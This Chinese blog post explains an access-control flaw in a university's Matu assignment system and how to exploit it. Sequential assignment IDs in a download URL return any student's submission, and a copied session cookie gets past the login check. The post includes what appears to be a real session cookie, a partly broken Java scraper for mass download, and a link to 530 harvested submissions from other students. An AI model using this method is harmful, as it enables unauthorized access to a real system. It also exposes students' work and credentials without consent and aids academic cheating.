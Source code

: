 ```yaml
---
title: "怎么有人用码图啊"
date: 2021-09-20T15:57:28+08:00
draft: false
---
```



# 怎么还有人用码图啊



很久以前发现在浏览器里直接粘贴url就能自动下载码图提交的文件。而且是没有权限的，意味着你能下载到所有码图提交。而且对于请求次数也是没有限制的。

比如在已经登录码图的浏览器中复制这个url：http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038358

浏览器就会自动下载这个文件。

这时候就有人好奇了，把assignmentid改成1038357会怎么样？会下载到另一个人的提交，这一个提交是在你之前的最近一个提交。

最早的提交我看到id=72650，是2015年9月10号的提交，来自学号20140601xxxx的学长，题目是20_生成前n个自然数的一个随机置换。

那么能不能把所有的码图提交都下载下来呢？只要借助一个叫Open multiple url at one click的chrome插件，将你所想要下载的码图文件url贴进去，chrome就会给你下载了。

那么，假如我没有登录matu怎么办，或者我没有浏览器怎么办，又或是我能不能把码图的所有提交下载下来呢？

那应该怎么做呢，码图会拦截没有登录的请求，这时就要用cookies骗过matu了，借助代理软件，可以看到

get请求会带header，其中有cookie字段

```
Cookie:	JSESSIONID=ADCFAD008D39D46910DB82255253AD2E; III_EXPT_FILE=aa48738; III_SESSION_ID=d55956838bd4bf7c44eae6dbedc5d20a; SESSION_LANGUAGE=eng; zg_did=%7B%22did%22%3A%20%221784dfce5e2433-04d99af797b1f2-5771133-fa000-1784dfce5e3d03%22%7D; zg_=%7B%22sid%22%3A%201625496021694%2C%22updated%22%3A%201625496021698%2C%22info%22%3A%201625496021697%2C%22superProperty%22%3A%20%22%7B%7D%22%2C%22platform%22%3A%20%22%7B%7D%22%2C%22utm%22%3A%20%22%7B%7D%22%2C%22referrerDomain%22%3A%20%22eportal.uestc.edu.cn%22%2C%22cuid%22%3A%20%222019081305013%22%2C%22zs%22%3A%200%2C%22sc%22%3A%200%2C%22firstScreen%22%3A%201625496021694%7D; iPlanetDirectoryPro=tH0Ds91VHf5CpQJkwG4p3v
```

只要在请求头加上这个字段，就可以骗过拦截器了。

写了一个java程序

```Java
package matudownload;

import com.sun.net.httpserver.Headers;
import org.jsoup.Connection;
import org.jsoup.Jsoup;
import org.jsoup.nodes.Document;
import org.jsoup.nodes.Element;

import java.io.*;

public class downLoad {
    public static void download(String url,String filepath,String cookie)throws Exception {

            Connection con=Jsoup.connect(url);
            con.header("Cookie",cookie);
            Connection.Response res=con.method(Connection.Method.GET).execute();
         
            String head=res.header("content-disposition");
            String str=new String(head1.getBytes("ISO-8859-1"),"GBK");
            //注意http请求的header要求其中文必须为iso8859-1编码，此时需要转化成gbk编码
            str=str.toString().substring(21,str.length()-1);

            BufferedWriter bw = new BufferedWriter
                    (new OutputStreamWriter(new FileOutputStream(filepath)));
             bw.write(new String(res.body().toString()));
            bw.flush();
            bw.close();   
    }
   
    public static void main(String[] args) {
        try {
         String cookie="";
           //cookie需要你从已登陆matu的浏览器中获取 download("http://matu.uestc.edu.cn/aptat/file/downloadassignmentfile?assignmentid=1038000","D:/download",cookie);    
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



我在github仓库上传了1038000-1038530的530个提交，大家可以参考别人的matu提交代码互相学习。

https://github.com/BachWV/matu/tree/main/allMatuCommit





至于部分码图考试能不能用这种方法抄到别人的提交，我不知道，也希望码图早日把这个漏洞给补上。

